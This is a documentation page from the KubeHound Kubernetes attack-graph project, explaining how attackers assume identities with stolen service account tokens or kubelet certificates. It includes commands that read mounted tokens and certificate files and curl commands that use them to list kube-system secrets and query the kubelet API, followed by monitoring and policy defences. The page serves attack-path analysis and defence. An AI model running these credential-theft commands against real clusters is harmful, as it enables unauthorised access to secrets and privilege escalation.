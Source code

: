 ```yaml
---
title: IDENTITY_ASSUME
---
```


<!--
id: IDENTITY_ASSUME
name: "Act as identity"
mitreAttackTechnique: T1078 - Valid Accounts
mitreAttackTactic: TA0004 - Privilege escalation
-->

# IDENTITY_ASSUME

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../entities/container.md), [Node](../entities/node.md) | [Identity](../entities/identity.md)  | [Valid Accounts, T1078](https://attack.mitre.org/techniques/T1078/) |

Represents the capacity to act as an [Identity](../entities/identity.md) via ownership of a service account token, user PKI certificate, etc.

## Details

Authentication to the K8s API is performed via passing certificates, static tokens or OIDC tokens in the API request. This edge represents the ability to assume an identity using either acquired credentials (such as a service account token) or the intrinsic identity of a resource in K8s such as executing commands from inside a pod with a bound serviceaccount.

## Prerequisites

Control of execution within a container with a bound serviceaccount or access to a node file system.

## Checks

### Container 

Check for a mounted service account tokens or secrets:

```bash
ls -la /var/run/secrets/kubernetes.io/serviceaccount/
```

### Node 

Check the kubelet configuration:

```bash
cat $NODE_ROOT/etc/kubernetes/kubelet.conf 
```

This should contain the paths of the kubelet user certificates that we can steal to impersonate the node user:

```yaml
users:
- name: default-auth
  user:
    client-certificate: /var/lib/kubelet/pki/kubelet-client-current.pem
    client-key: /var/lib/kubelet/pki/kubelet-client-current.pem
```

Check the file(s) are accessible:

```bash
ls -la $NODE_ROOT/var/lib/kubelet/pki/kubelet-client-current.pem
```

## Exploitation

### Container 

Assuming a valid token is recovered from e.g a mounted service account a token is found it can be used to interact with the K8s API, to potentially access new resources:

```bash
KUBE_TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
curl -sSk -H "Authorization: Bearer $KUBE_TOKEN" \
      https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_PORT_443_TCP_PORT/api/v1/namespaces/kube-system/secrets
```

### Node

The kubelet PKI certificates can be used to authenticate to either the kubelet or the K8s API:

```bash
 curl -k --cacert $NODE_ROOT/etc/kubernetes/pki/ca.crt --key $NODE_ROOT/var/lib/kubelet/pki/kubelet-client-current.pem --cert {$NODE_ROOT}/var/lib/kubelet/pki/kubelet-client-current.pem https://${NODE_IP}:10250/pods/ 
```

## Defences

### Monitoring

+ Monitor for installation and/or execution of kubectl within pods. This is anomalous activity but may be triggered by legitimate SRE or developer activities.
+ Interacting directly with the K8s API via non-standard tools e.g curl could be observed via the User-Agent field in audit logs. However, this is attacker controlled so should not be relied on.

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the identities under which new pods can run.

## Calculation

+ [IdentityAssumeContainer](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/identity_assume_container.go)
+ [IdentityAssumeNode](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/identity_assume_node.go)

## References:  

+ [Official Kubernetes Documentation](https://kubernetes.io/docs/reference/access-authn-authz/authentication/#authentication-strategies)
+ [CURLing the Kubernetes API](https://nieldw.medium.com/curling-the-kubernetes-api-server-d7675cfc398c)
+ [Kubelet API Overview](https://www.deepnetwork.com/blog/2020/01/13/kubelet-api.html)
+ [Node AuthN/AuthZ](https://kubernetes.io/docs/reference/access-authn-authz/node/)